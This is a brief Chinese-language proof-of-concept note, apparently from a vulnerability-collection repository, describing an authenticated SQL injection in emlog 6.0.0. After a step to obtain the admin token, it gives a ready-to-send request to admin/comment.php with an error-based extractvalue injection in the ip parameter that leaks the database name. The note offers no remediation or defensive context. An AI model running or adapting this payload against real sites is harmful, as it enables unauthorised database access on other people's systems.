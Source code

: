 ### emlog

```
版本信息：6.0.0
```

#### 后台sql注入

登录后找到token值

![image-20221207155143025](images/image-20221207155143025.png)

然后替换token值后请求，

```
admin/comment.php?action=delbyip&token=4eeb0789d73618c2e56c88685e58a8cf&ip=127.0.0.1%27%20and%20(extractvalue(1,concat(0x7e,(select%20database()),0x7e)))%23
```

![image-20221207155302416](images/image-20221207155302416.png)